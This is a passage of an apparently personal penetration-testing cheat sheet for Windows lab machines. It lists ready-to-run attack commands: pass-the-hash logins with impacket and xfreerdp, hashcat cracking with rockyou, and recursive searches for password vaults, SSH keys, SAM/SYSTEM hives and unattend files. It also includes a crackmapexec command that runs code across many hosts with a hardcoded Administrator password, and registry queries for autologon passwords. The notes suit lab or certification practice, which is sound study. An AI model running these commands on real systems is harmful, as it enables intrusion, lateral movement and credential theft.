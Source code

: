 ```bash
impacket-psexec -hashes :"$HASH" "$DOMAIN/$USER"@$IP
impacket-dcomexec -hashes :"$HASH" "$DOMAIN/$USER"@$IP
xfreerdp /u:"$USER" /pth:"$HASH" /v:$IP /cert:ignore # /auto-reconnect
```

- **How to crack hashes?** \
Hashes can often be used in pass-the-hash attacks, regardless you should try to crack them.
If you don't know exactly how the passwords look, use a standard list. If not found maybe ignore.
```bash
hashcat -m MODE-HERE hashes.txt  /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

- **How to list files? (Get-ChildItem = gci)** (gci all)
```powershell
NOTE! for CMD you can also do:
#dir /a
where /r C:\ *something

# NOTE: run seatbelt.exe and maybe winPEAS to double check
# C:\Users
gci -Path C:\Users -Include *.kdbx,*.ppk,ssh*key,*id_*sa*,*.pub,*authorized_keys*,*.txt,*.ini,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ovpn,*.zip,*.ps1 -File -Recurse -ErrorAction SilentlyContinue -Force
gci -Path C:\Users -Include *.kdbx,*.ppk,ssh*key,*id_*sa*,*.pub,*authorized_keys*,*.txt,*password*,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ovpn,*.zip,*.ps1 -File -Recurse -ErrorAction SilentlyContinue -Force
gci -Path C:\Users -Include * -File -Recurse -ErrorAction SilentlyContinue -Force
# C:\
gci -Path C:\ -Include SYSTEM,SAM,security.save,*.kdbx,*.ppk,ssh*key,*id_*sa*,*.pub,*authorized_keys*,*.ovpn -File -Recurse -ErrorAction SilentlyContinue -Force
# Print all flags
gci -Path C:\ -Include local.txt,proof.txt -File -Recurse -ErrorAction SilentlyContinue  -Force | type
# Print all flags on all machines that we can access
crackmapexec smb ips.txt -u Administrator -p 'vau!XCKjNQBv2$' -X 'gci -Path C:\ -Include local.txt,proof.txt -File -Recurse -ErrorAction SilentlyContinue  -Force | type'

## More ##
# List all files in recycle bin (idk how to actually read contents)
$shell = New-Object -ComObject Shell.Application; $recycleBin = $shell.Namespace(0xA); foreach ($item in $recycleBin.Items()) { Write-Output "Item: $($item.Name)" }
# List MSSQL databases (not sure if useful)
gci -Path C:\ -Include *.mdf -File -Recurse -ErrorAction SilentlyContinue -Force

## Autologon ##
# List autologon and other unattended stuff (TODO this hasnt shown anything for me)
gci -Path C:\ -Include *sysprep.inf,*sysprep.xml,*unattended.xml,*unattend.xml,*unattend.txt  -File -Recurse -ErrorAction SilentlyContinue -Force
# List registry entry for winlogon (can show "DefaultPassword")
.\seatbelt.exe WindowsAutoLogon
# OR
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

```
Also, add `|sls` to search in found files.
